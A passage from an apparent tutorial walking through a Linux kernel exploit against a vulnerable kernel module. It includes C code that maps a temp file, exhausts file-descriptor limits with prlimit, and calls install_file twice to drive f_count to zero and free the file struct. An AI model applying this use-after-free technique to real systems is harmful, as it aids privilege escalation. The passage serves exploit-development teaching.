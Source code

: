 ### Map the temporary file
The next step is to map the previously opened temporary file into memory. This way we can get access to the file with a single pointer instead of going through a file descriptor. This mapping must allow read and write access and must have the `MAP_SHARED` flag set. This way any change in the mapped file will be carried through to the underlying file.

We must take into account that if we want to access an empty mapped file, we will receive a `bus error` as we will be accessing beyond the file's end. To avoid this later on, we can write a placeholder to the file.

```c
	// Allocating some bytes into tmp file to prevent bus error.
	// fallocate or ftruncate are other viable options.
	puts("[+] Allocating some bytes into tmp file to prevent bus error");
	write(fd0, placeholder, strlen(placeholder));

	// Mapping tmp file into memory.
	// Size 1 allocates minimum size which is an entire page.
	puts("[+] Mapping tmp file into memory");
	ptr = mmap(NULL, 1, PROT_READ | PROT_WRITE, MAP_SHARED, fd0, 0);
	if (ptr == MAP_FAILED) {
		err(0, "[-] Failed to map %s into memory", TMP_FILE);
	}
```

### Drop `f_count` to `0`
Now the `f_count` related to our temporary file should have a value of `2` as the mapping has increased the previous value by one.

Our next goal is to force `get_unused_fd_flags(0)` to fail. As we explained before, this can be achieved by limiting the max amount of open files a process can have. We will use the previously defined wrapper for the `prlimit` function.

```c
	// Limiting the max amount of file descriptors.
	puts("[+] Limiting max amount of file descriptors");
	set_fd_limit(0, 4096);	
```

Here we are setting the soft limit at `0` and the hard limit at `4096`. This way any attempt to open a new file descriptor will fail.

As we said before, the actual value of `f_count` is `2` so this means we need to call `install_file` two consecutive times to drop this value to `0`. This will release the _file_ struct and the memory region will be freed.

```c
	// Forcing file struct release through file->f_count->counter decrement. 
	puts("[+] Forcing file struct release. Expecting EBADF:");
	fd1 = install_file(device_fd, &fd0);
	fd1 = install_file(device_fd, &fd0);
```

At this point, we can check what happens with the `f_count`. To be able to put a breakpoint at the `install_file` function of the LKM, we will need to load the LKM symbols into gdb. 
